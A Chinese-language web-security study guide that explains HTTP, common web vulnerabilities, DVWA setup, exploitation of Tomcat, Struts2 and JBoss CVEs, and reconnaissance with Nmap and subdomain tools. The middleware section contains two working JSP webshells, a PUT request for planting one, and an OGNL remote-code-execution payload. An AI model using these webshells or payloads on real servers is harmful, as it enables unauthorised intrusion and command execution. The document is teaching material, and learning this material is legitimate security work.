






# 网络安全知识汇总
## Web应用程序安全与风险
### Web攻击基础知识
- 什么是web应用攻击
  - web攻击的本质，就是通过http协议篡改应用程序
  - 重点：不要相信用户的输入
  - 可利用点：请求方法、请求头、数据体
  - 利用过程：认证、会话、授权
  - 利用途径：Web、客户端、html、其他协议 

- Web攻击的特点
  - 广泛性
  - 匿名性
  - 利用难度低(对比主机漏洞，木马病毒)

- 常见的Web安全薄弱点
  - 中间件：针对http底层服务软件的攻击，如IIS,Apache,nginx,tomcat
  - web应用：授权，认证，输入验证，程序逻辑，钓鱼等
  - 数据库：SQL注入
  - Web客户端：客户端软件漏洞，浏览器，App，小程序等
  - 传输：中间人攻击(会话劫持，DNS欺骗)，窃听等
  - 可用性：DDOS（分布式拒绝服务攻击，攻击目标是IP，即服务器），CC攻击（面向网页的攻击，短时间内大量的ip访问一个页面并使用其查询或一些其他功能，使得服务器CPU资源耗尽，典型的案例是春运买票）

- Web渗透测试学习框架（涵盖哪些方面？遵循什么流程？）
  - 信息收集
  ```
  挖淘宝的漏洞：https://www.taobao.com
  登录网站，挖漏洞：
  1. 端口
  2. 子站 abc.taobao.com; a.b.taobao.com
  3. 新业务
  4. 手机业务
  5. 微信小程序
  6. 友情链接
  7. 旁站
  ```
  - 漏洞攻防
  ```md
  SQL注入               针对数据库进行攻击
  XSS                   跨站脚本攻击
  CSRF                  跨站请求伪造（盗号），转账，发送虚假消息
  SSRF                  服务端请求伪造
  命令注入               类似SQL注入，针对操作系统
  目录穿越
  暴力破解
  文件读取               使用大量的../返回到根目录，从而访问指定的文件，主要针对linux系统
  文件上传
  文件包含
  XXE
  逻辑漏洞/业务漏洞
  中间件
  ```
  - 编程语言
  ```md
  PHP
  Python
  Java
  Javascript
  C/C++
  ```
  - 代码审计（白盒测试）
  - 应急响应
### Web应用程序技术
- HTTP协议
  - 定义：HTTP(Hyper Text Transfer Protocol)即超文本传输协议，是一种详细规定了浏览器和万维网服务器之间互相通信的规则，它是万维网交换信息的基础，它允许将HTML(超文本标记语言)文档从Web服务器传送到Web浏览器。
  - URL（统一资源定位符）也被称为网络地址，是互联网标准的地址。URL的标准格式如下
  ```md
  协议://服务器IP[:端口]/路径/[?查询]

  http协议  默认80端口
  https协议 默认443端口
  ```
  - 不借助浏览器，发起http请求
  <br>Linux中的curl命令
  ```shell
  Get 请求
  curl http://www.baidu.com

  Post 请求
  curl -d "user=admin&password=admin" http://www/baidu/com
  ```
  - hackbar V2
  ```md
  火狐浏览器插件

  ```
- http协议详解
  - HTTP是一种无状态的协议。无状态是指Web浏览器与Web服务器之间不需要建立持久的连接，这意味着当一个客户端向服务端发出请求（Request），然后Web服务器返回响应（Response），连接就被关闭了，在服务端不保留连接的有关信息。
  <br>也就是说，HTTP请求只能由客户端发起，而服务器不能主动向客户端发送数据。
  ```html
  POST /login.php HTTP/1.1      //请求行
  HOST: www.baidu.com           //请求头
  User-Agent: Mozilla/5.0（Windows NT 6.1; rv:15.0） Gecko/20100101 Firefox/15.0
  //空白行，代表请求头结束
  Username=admin&password=admin     //请求正文
  ```
  - 格式解析
    - 第一行：请求行，由三部分组成。第一部分说明了该请求方法是POST请求；第二部分是一个斜杠(/login.php)，用来说明请求的是该域名根目录下的login.php文件；第三部分即为http协议的版本。
    - 第二行至空白行：这部分称为HTTP中的请求头(也称消息头)
    <br>其中，HOST代表请求的主机地址，User-agent代表浏览器标识。<font color=tomato>请求头由客户端自行设定</font>。
    - 最后一行：请求正问，可选。最常出现在POST请求方法中，而GET请求的内容在请求行的路径中。
  - http响应
    - 响应也是由三部分组成：响应行，响应头，响应正文
    ```md
    HTTP/1.1 200 0K //响应行
    Date: Thu, 28 Feb 2013 07:36:47 GMT //响应头
    Server: BWS/1.0 //服务器信息
    Content-Length: 4199
    Content-Type: text/html;charset=utf-8 //提问：告诉谁的？
    Cache-Control: private
    Expires: Thu, 28 Feb 2021 07:36:47 GMT
    Content-Encoding: gzip
    Set-Cookie: H_PS_PSSID=2022_1438_1944_1788; path=/; domain=.baidu.com
    Connection: Keep-Alive
    //空白行，代表响应头结束
    <html> //响应正文或者叫消息主体
    <headxtitle> Index.html </title></head>

    什么情况下设置cookie值
    三种情况：
    1. 一般来说，登录之后设置cookie
    2. 第一次访问目标网站就设置cookie，且登录后cookie不更新（正常会更新），就会存在“会话固定攻击”
    会话固定攻击：攻击者通过攻击手段，提前设置好的cookie给到用户，并且登录后网站cookie不更新
    3. 第一次访问目标网站就设置cookie，且登陆后cookie更新或增加校验字段
    ```
- HTTP请求方法 
  - GET
  - HEAD
  - POST
  - PUT
    - PUT方法用于请求实体存储在服务器中，如果服务器已存在给资源，则覆盖。通常情况下，服务器会关闭PUT方法，因为他会为服务器建立文件，属于危险方法之一。
  - DELETE
    - 服务器一般会关闭此方法。用于请求服务器删除指定资源，因为客户端可以进行删除文件操作，属于危险方法之一
  - TRACE
    - TRACE方法可以回显整个请求中经过的节点，属于危险方法
  - OPTIONS
    - OPTIONS方法用于请求获取http协议中开启的请求方法

- HTTP状态码
```md
- 1xx：信息提示，表示请求已被成功接收，继续处理，范围为100~101
- 2xx：成功
- 3xx：重定向
- 4xx：客户端错误状态码
- 5xx：服务端错误状态码
```

- HTTP数据包
  - 响应数据包和请求数据包，统称HTTP数据包

- HTTP消息
  - 请求头：请求头只出现在HTTP请求中
    - HOST：HOST请求报头域主要用于指定被请求的资源的Internet主机和端口号
    ```
    HOST: www.baidu.com:8010
    ```
    - User-Agent:允许客户端将他的操作系统，浏览器和其他属性告诉服务器
    ```
    User-Agent: My privacy
    ```
    - Referer:包含一个URL，代表当前访问URL的上一个URL，也就是说，用户是从什么地方来到本页面的
    ```
    Referer: www.baidu.com/login.php

    代表用户从login.php来到当前页面
    ```
    - cookie:标识用户身份
    - X-forward-for：即XXF头，代表请求端的IP
    - Accept:指定客户端接收哪些MIME类型的消息
    ```
    Accept: text/html
    // 表明用户端希望接收HTML文本
    ```
    Accept-charset：指定希望接收的编码方式

  - 响应头
    - Server：服务器所使用的web服务器名称
    ```
    Server: Apache/1.3.6(Unix)
    // 攻击者通过查看此头，可以探测Web服务器名称，所以，建议服务端修改此信息
    ```
    - Set-Cookie：向客户端设置Cookie
    - Last-Modified：告诉浏览器，资源的最后修改时间
    - Location：告诉浏览器取访问哪个页面，浏览器接收到后，会立即访问Location头所指向的页面，通常配合302状态码使用
    - Refresh：告诉浏览器定时刷新

  - 普通头（请求头和响应头的一些信息）：略
  - 实体头：略

- HTTP协议和HTTPS协议的区别
  - HTTPS是以安全为目标的HTTP通道，比单纯的HTTP协议更安全
  - HTTPS的安全基础是SSL，即在HTTP下加入SSL层。也就是HPPTS通过安全传输机制进行数据传送，这种机制可保护网路传送的所有数据的隐秘性和完整性，可以降低非侵入性拦截攻击的可能性。
  - 主要区别
    - HTTP是超文本传输协议，信息是明文传输；HTTPS是具有安全性的SSL加密传输协议
    - HTTP和HTTPS协议使用的是完全不同的连接方式，HTTP采用80端口连接，HTTPS则是443端口
    - HTTPS协议需要ca申请证书

- Web应用程序编码
  - URL编码
    - 特征：%后面跟两个16进制数
    ```
    %3d -> =
    %25 -> %
    %00 -> 空字节
    ```
  - Unicode编码
    - 特征：%u为前缀
    ```
    %u2215 -> /
    ```
  - HTML编码
  - Base64编码
    - 特征：由大写字母，小写字母，数字，+/,共64个字符组合的编码，常用于对电子邮件进行编码，或对基本HTTP验证机制中的用户证书进行编码。
  - 16进制编码
    - 用ASCLL字符标识16进制数据块

## 攻防环境搭建
- 专业名词介绍
  - POC：一段漏洞证明的代码（无害）
  - EXP：exploit的缩写，一般指得是可利用系统漏洞进行攻击得动作程序（有害）
  - payload：有效载荷，攻击成功以后，攻击程序释放得具有攻击能力的，能实现攻击者目的的代码
  - RCE：远程命令执行
- DVMA
  - 安装 
  ```
  docker pull saqikazarmark/dvwa
  docker run -d -p 8080:80 -p 33060:3303 saqikazarmark/dvwa
  ```
  - DVMA是什么？
    - DVWA（Damn Vulnerable Web Application）是一个安全的教育平台，用于教授和测试Web应用程序安全性。DVWA是为了教育和测试目的而设计的，可以用于合法地学习和测试Web应用程序的常见漏洞和安全问题
  - 主要特性
    - 多种安全级别：提供了不同的安全级别，允许用户从最基础的开始，逐步深入
    - 多种漏洞：包括SQL注入、XSS（跨站脚本）、CSRF（跨站请求伪造）等多种常见的Web安全漏洞。

### Tomcat（中间件漏洞）
- Tomcat PUT方法任意写文件漏洞（CVE-2017-12615）
- Tocat版本：7.0.0-7.0.79、8.5.19
```
docker search CVE-2017-12615
docker pull cved/cve-2017-12615
```
- 漏洞的POC
```jsp
<%
if("geektime".equals(request.getParameter("pwd"))){
java.io.InputStream in =
Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
int a = -1;
byte[] b = new byte[2048];
out.print("<pre>");
while((a=in.read(b))!=-1){
out.println(new String(b));
}
out.print("</pre>");
}
%>

// 上述代码的关键部分：
if("geektime".equals(request.getParameter("pwd")))
// 将密码pwd用geektime指代
exec(request.getParameter("i")).getInputStream();
// 用参数i接收用户的输入，执行用户的输入内容
```
- 直接发送一下数据包即可在Web根目录写入shell
```http
PUT /test.jsp/ HTTP/1.1
Host: your-ip:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64;
Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

shell
```
- 利用shell执行命令（web shell）
  


- 代码执行工具 - Brup suite
  - 工作原理： 客户端向服务端发送请求，服务端收到请求后给出响应，在这个通信过程中，设置一个中间人(程序)，介入双方的通信，这个中间人就是Brup suite
  - 使用方法

- 漏洞原理：
  - 漏洞1：漏洞本质是 Tomcat 的 web.xml 配置了可写（写=上传）（readonly=false），导致我们可以往服务器写（PUT）文件：
  ```xml
    <servlet>
        <servlet-name>default</servlet-name>
        <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
        <init-param>
            <param-name>debug</param-name>
            <param-value>0</param-value>
        </init-param>
        <init-param>
            <param-name>listings</param-name>
            <param-value>false</param-value>
        </init-param>
        <init-param>
            <param-name>readonly</param-name>   #代码出问题的地方readonly=falus
            <param-value>false</param-value>
        </init-param>
        <load-on-startup>1</load-on-startup>
    </servlet>
  ```
  - 漏洞2：tomcat本身不允许上传 jsp 文件，1.jsp/ 加了 / 就不是 jsp 文件，系统保存文件 1.jsp/ --> 1.jsp
  <br>tomcat对jsp是做了一定处理的。前面的流程中 1.jsp/ 识别为非jsp文件，而后续保存文件的时候，文件名不接受/字符，故而忽略掉。
- tip 对站点进行漏洞查找的流程:
  - 梳理互联网暴露面（尽量减少对外入口）
  - 扫描。分别从应用层面和主机层面去扫描站存在的漏洞
  - 手工验证漏洞
  - 检查网站的安全配置（基线配置核查）、代码审计
- webshell利用工具2 —— 蚁剑
  - 蚁剑：webshell图形化利用工具
  ```
    https://github.com/AntSwordProject/antSword
    https://www.yuque.com/antswordproject/antsword/srruro
  ```
    - yijian_shell.jsp
  ```jsp
    <%!
        class U extends ClassLoader {
            U(ClassLoader c) {
                super(c);
            }
            public Class g(byte[] b) {
                return super.defineClass(b, 0, b.length);
            }
        }
        public byte[] base64Decode(String str) throws Exception {
            try {
                Class clazz = Class.forName("sun.misc.BASE64Decoder");
                return (byte[]) clazz.getMethod("decodeBuffer",
    String.class).invoke(clazz.newInstance(), str);
            } catch (Exception e) {
                Class clazz = Class.forName("java.util.Base64");
                Object decoder = clazz.getMethod("getDecoder").invoke(null);
                return (byte[]) decoder.getClass().getMethod("decode",
    String.class).invoke(decoder, str);
            }
        }
    %>
    <%
        String cls = request.getParameter("passwd");
        if (cls != null) {
            new
    U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);
    }
    %>

  ```
- 总计（漏洞利用成功）：
  - 能上传脚本
  - 1.jsp/得以以.jps的后缀名保存在服务器中
- 解决方案：
  - 修复web.xml关于readonly=false的可写命令，改为只读
  - 网站使用白名单校验机制
### Struts 框架漏洞

- 漏洞介绍：
  - S2-048 远程代码执行漏洞（CVE-2017-9791）
  - 影响版本: 2.0.0 - 2.3.32
- 漏洞原理：Apache Struts 1插件的 Apache Struts 2.3.x 版本中存在远程代码执行漏洞，该漏洞出现于Struts2的某个类中，该类是为了将Struts1中的Action包装成为Struts2中的Action，造成了Struts2中的Struts1插件启用的情况下，远程攻击者可通过使用恶意字段值，构造特定的输入，发送到ActionMessage类中，从而导致任意命令执行，进而获取目标主机系统权限。漏洞成因是当ActionMessage接收客户可控的参数数据时，由于后续数据拼接传递后处理不当导致任意代码执行。

- 漏洞测试 
    ```
    docker search s2-048
    docker pull docker.io/piesecurity/apache-struts2-cve-2017-5638
    ```
  - 这个环境是直接下载的struts-2.3.32的showcase，部署在tomcat-8.5下。环境启动后，访问
  http://your-ip:8081/showcase/ 即可查看到struts2的测试页面。

    

  - 触发OGNL表达式的位置是 Gangster Name 这个表单。
  - 输入 ${200*200} 即可查看执行结果（剩下两个表单随意填写）：

    

  - poc
  ```java
  %{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?
  (#_memberAccess=#dm):
  ((#container=#context['com.opensymphony.xwork2.ActionContext.container']).
  (#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).
  (#ognlUtil.getExcludedPackageNames().clear()).
  (#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).
  (#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec
  ('id').getInputStream())).(#q)}
  #id 返回当前用户的信息
  ```
  

- 漏洞触发点：org.apache.struts2.s1.Struts1Action.execute() 方法中
  
  

  - 参考链接：https://www.cnblogs.com/Zhujianshi/p/7146396.html


### JBoss 反序列化漏洞
- 漏洞介绍1：JBoss 5.x/6.x 反序列化漏洞（CVE-2017-12149）
```
docker search CVE-2017-12149
docker pull docker.io/hackingpub/cve-2017-12149

# 首次执行时会有1~3分钟时间初始化，初始化完成后访问 http://your-ip:8080/ 即可看到JBoss默认页面。
```
- 漏洞介绍2：该漏洞为 Java反序列化错误类型，存在于 Jboss 的 HttpInvoker 组件中的 ReadOnlyAccessFilter 过滤器中。<font color=tomato>该过滤器在没有进行任何安全检查的情况下尝试将来自客户端的数据流进行反序列化</font>(出问题的点)，从而导致了攻击者可以在服务器上执行任意代码。

- 漏洞版本：漏洞影响5.x和6.x版本的JBoss。

- 漏洞原理：JBOSS Application Server是一个基于J2EE的开放源代码的应用服务器。 JBoss代码遵循LGPL许可，可以在任何商业应用中免费使用。
```
Java序列化：把Java对象转换为字节序列的过程。
Java反序列化：指把字节序列恢复为Java对象的过程。
Java序列化与反序列化作用：便于保存数据，或者进行数据传输。
```
- 漏洞出现在 Jboss 的 HttpInvoker组件中的 ReadOnlyAccessFilter 过滤器中，源码在
jboss\server\all\deploy\httpha-invoker.sar\invoker.war\WEB-INF\classes\org\jboss\invocation\http\servlet目录下的ReadOnlyAccessFilter.class文件中，其中
doFilter函数代码如下
```java
public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain)
    throws IOException, ServletException
{
    HttpServletRequest httpRequest = (HttpServletRequest)request;
    Principal user = httpRequest.getUserPrincipal();
    if ((user == null) && (this.readOnlyContext != null))
    {
      ServletInputStream sis = request.getInputStream();
      ObjectInputStream ois = new ObjectInputStream(sis);
      MarshalledInvocation mi = null;
      try
      {
      mi = (MarshalledInvocation)ois.readObject(); //漏洞点
      }
      catch (ClassNotFoundException e)
      {
      throw new ServletException("Failed to read MarshalledInvocation", e);
      }
      request.setAttribute("MarshalledInvocation", mi);
mi.setMethodMap(this.namingMethodMap);
Method m = mi.getMethod();
if (m != null) {
    validateAccess(m, mi);
  }
}
chain.doFilter(request, response);
}
```

- 通过java反序列化工具进行攻击

## 信息收集
- Whois信息
  - 站长之家：http://whois.chinaz.com
    - 域名对应的邮箱；
    - 该邮箱注册的所有域名
    - 企业CEO名称注册的域名
    - SRC：安全应急响应中心(漏洞、情报)http://security.alibaba.com
  - 主要目的查询域名对应的联系方式和联系人，通过反查联系方式和联系人，试图找到其他域名

- 企业信息
  - 企查查：https://www.qichacha.com
  - 天眼查：https://www.tianyancha.com
  - 查询目标：企业联系方式/联系人，通过这些信息去的查询企业旗下注册的域名

- 域名信息（域名&子域名）
  - 一级域名: example.com
  - 二级域名: www.example.com
  - 三级域名: www.hack.example.com
  - 查询子域名信息目的：查找企业边缘业务ip
  - 查询方式：
    - OneForAll:http://github.com/shmilylty/OneForAll
    - ksubdomain：https://github.com/knownsec/ksubdomain
    - subDomainsBrute：https://github.com/lijiejie/subDomainsBrute
    - Sublist3r：https://github.com/aboul3la/Sublist3r
    - RappidDns：https://rapiddns.io/subdomain (在线)
    - 查子域：https://chaziyu.com/ (在线)
    - 子域名挖掘机

- 旁站信息（同IP网站）
  - 简介：一个服务器可以起多个web服务，开不同的端口即可，相当于一个ip映射给多个域名
  - 查询方式：
    - 在线：http://stool.chinaz.com/same
    - 在线：https://site.ip138.com
  - 旁站查询涉及到CDN问题，所以为了查询到准确的旁站信息，需要找到目标真实IP

- 真实IP
  - 判断真实IP：使用全球ping，在全国/全球各地去ping该网址，观察IP是否一致
  - 工具：
    - 全球ping：http://tool.zhiduopc.com/ping
    - DNS检测：https://tools.ipip.net/dns.php
    - Xcdn：https://github.com/3xp10it/xcdn
    - 在线：https://ipchaxun.com/
    - Ping.cn：https://www.ping.cn/dns/
    - ping.chinaz.com(推荐)
  - 方法：如果从主站ping，得不到真是ip，可以尝试从边缘业务的二级域名去尝试获取真实ip

- 端口+子目录
  - 工具
    - Nmap：https://nmap.org
      - 介绍：Nmap (“Network Mapper<网络映射器>”) 是一款开放源代码的网络探测和安全审核的工具。它的设计
        目标是快速扫描大型网络，当然用它扫描单个主机也没有问题。Nmap以新颖的方式使用原始IP报文来
        发现网络上有哪些主机，这些主机提供什么服务(应用程序名和版本)，这些服务运行在什么操作系统(包
        括版本信息)， 它们使用什么类型的报文过滤器/防火墙，以及一堆其它功能。虽然Nmap通常用于安全
        审核，许多系统管理员和网络管理员也用它来做一些日常的工作，比如查看整个网络的信息， 管理服务
        升级计划，以及监视主机和服务的运行。
      - 一个典型的Nmap扫描
      ```shell
      nmap -A -T4 scanme.nmap.org
      # 选项 -A ， 用来进行操作系统及其版本的探测;   # -T4 可以加快执行速度，接着是目标主机名。
      ```
      ```
      # nmap -A -T4 scanme.nmap.org
        Nmap scan report for scanme.nmap.org (45.33.32.156)
        Host is up (0.16s latency).
        Other addresses for scanme.nmap.org (not scanned): 45.33.32.156
        Not shown: 985 closed tcp ports (reset)
        PORT STATE SERVICE VERSION
        9/tcp filtered discard
        22/tcp open ssh OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu
        Linux; protocol 2.0)
        | ssh-hostkey:
        | 256 96:02:bb:5e:57:54:1c:4e:45:2f:56:4c:4a:24:b2:57 (ECDSA)
        |_ 256 33:fa:91:0f:e0:e1:7b:1f:6d:05:a2:b0:f1:54:41:56 (ED25519)
        42/tcp filtered nameserver
        80/tcp open http Apache httpd 2.4.7 ((Ubuntu))
        |_http-title: Go ahead and ScanMe!
        |_http-favicon: Nmap Project
        |_http-server-header: Apache/2.4.7 (Ubuntu)
        135/tcp filtered msrpc
        139/tcp filtered netbios-ssn

      ```
      - 目标说明：
        - 使用CIDR风格，如192.168.10.0/24，将会扫描c端256台主机
        - 也支持自定义ip地址范围的风格：192.168.0-255.1-254
        - Nmap命令行接受多个主机说明，它们不必是相同类型，如：nmap scanme.nmap.org 192.168.0.0/8
        10.0.0.1。中间用空格隔开。
        - -iL（从列表输入）
        <br>从 中读取目标说明。在命令行输入一堆主机名显得很笨拙，然而经常需要这样。 例如，您的DHCP服务器可能导出10,000个当前租约的列表，而您希望对它们进行扫描。如果您不是使用未授权的静态IP来定位主机，或许您想要扫描所有IP地址。 只要生成要扫描的主机的列表，用-iL 把文件名作为选项传给Nmap。列表中的项可以是Nmap在命令行上接受的任何格式(IP地址，主机名，CIDR，IPv6，或者八位字节范围)。 每一项必须以一个或多个空格，制表符或换行符分开。 如果您希望Nmap从标准输入而不是实际文件读取列表， 您可以用一个连字符(-)作为文件名。
        - iR（随机选择目标）
        <br>对于互联网范围内的调查和研究， 您也许想随机地选择目标。 选项告诉 Nmap生成多少个IP。不合需要的IP如特定的私有，组播或者未分配的地址自动略过。选项 0 意味着永无休止的扫描。记住，一些网管对于未授权的扫描可能会很感冒并加以抱怨。 使用该选项的后果自负! 如果在某个雨天的下午，您觉得实在无聊， 试试这个命令nmap -sS -PS80 -iR 0 -p 80随机地找一些网站浏览。
        - --exclude <host1,host2,host3，...> (排除主机/网络)
